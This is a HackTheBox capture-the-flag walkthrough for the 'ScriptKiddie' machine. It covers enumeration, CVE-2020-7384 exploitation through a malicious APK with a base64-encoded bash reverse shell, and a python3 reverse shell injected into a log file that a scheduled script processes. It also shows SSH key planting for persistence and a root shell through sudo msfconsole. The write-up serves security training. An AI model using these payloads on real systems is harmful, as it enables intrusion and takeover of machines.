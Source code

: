 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [ScriptKiddie](https://app.hackthebox.com/machines/ScriptKiddie)

> [!tip]- Summary with Spoilers
> - This machine exposed a Metasploit installation, which I used to exploit a Git-related vulnerability for initial access as `kid`.
> - I moved laterally to `pwn` by injecting malicious input into a writable log file processed by an `incrond` job.
> - Privilege escalation was achieved by leveraging a misconfigured `msfconsole` binary, granting a `root` shell.

## Enumerate

```console
$ nmap -n -sCV -T4 -p1-65535 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 17:35 CDT
Nmap scan report for 10.10.10.226
Host is up (0.26s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 724.14 seconds
```

Port 5000 is running a simple web service on [Werzkzeug](https://werkzeug.palletsprojects.com/en/3.0.x/), a Python `httpd` framework.

There are no apparent exploits available for the services themselves, but the page offers an opportunity:

![](_/htb-scriptkiddie-20231019-1.png)

## Exploit

The `payloads` section offers an opportunity to pass a malicious `msfvenom` template, per [CVE-2020-7384](https://nvd.nist.gov/vuln/detail/CVE-2020-7384). MSF now offers [a module](https://www.exploit-db.com/exploits/49491) to exploit this vulnerability, but I'll use [this script](https://github.com/nikhil1232/CVE-2020-7384/blob/main/CVE-2020-7384.sh) to generate the payload:

```console
$ sh cve-2020-7384.sh 
-e 
\x1B[31mCVE-2020-7384
-e 
Enter the LHOST: 
10.10.16.5
-e 
Enter the LPORT: 
443
-e 
Select the payload type
1. nc
2. bash
3. python
4. python3

select: 2
-e 
Enter the Directory (absolute path) where you would like to save the apk file (Hit Enter to use the current directory): 

  adding: emptyfile (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 90 days
        for: CN="'|echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNS80NDMgMD4mMSIK | base64 -d | sh #"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.
-e 
New APK file Generated
Location: "[...]/exploit.apk"
[...]

$ ls -l exploit.apk 
-rw-r----- 1 e e 2075 Oct 19 13:49 exploit.apk
```

I set up a `nc` listener and the feed `exploit.apk` to the web service:

![](_/htb-scriptkiddie-20231019-2.png)

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.226] 39690
bash: cannot set terminal process group (897): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ cat /home/kid/user.txt
cat /home/kid/user.txt
787100[...]
```

I add my public key to `authorized_keys` to get a proper interactive shell:

```console
kid@scriptkiddie:~/html$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> ~/.ssh/authorized_keys
```

```console
$ ssh kid@$t
[...]
Last login: Wed Feb  3 12:07:35 2021 from 10.10.14.4
kid@scriptkiddie:~$ 
```

## Escalate

From here I see two login users, `kid` and `pwn`. In the latter's home directory there's this script:

```console
kid@scriptkiddie:~$ cat /home/pwn/scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Given that the user `kid` has write access to the input for this script, I'm able to move laterally to the `pwn` user. The script appears to be triggered via [incrond](https://linux.die.net/man/8/incrond). Here's the payload:

```console
kid@scriptkiddie:~$ cat x
1 1 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
kid@scriptkiddie:~$ cat x > logs/hackers
```

On the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.226] 58740
$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> >> .ssh/authorized_keys
sh: 2: cannot create .ssh/authorized_keys: Permission denied
$ mv .ssh/authorized_keys ./
mv .ssh/authorized_keys ./
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> >> .ssh/authorized_keys
echo 'ssh-ed25519
```

The file `.ssh/authorized_keys` was immutable (I'm not sure the mechanism, since `lsattr` didn't have the `i` flag) but I was able to move it out of the way and create a new `authorized_keys` file. Now with a proper shell I check `sudo` privileges:

```console
$ ssh pwn@$t
[...]
Last login: Thu Jan 28 17:52:15 2021 from 10.10.14.7
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ 
```

`msfconsole` is trivially exploitable for a `root` shell:

```console
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q -x /usr/bin/bash
[*] exec: /usr/bin/bash

root@scriptkiddie:/home/pwn# cat /root/root.txt
cb08fe[...]
```
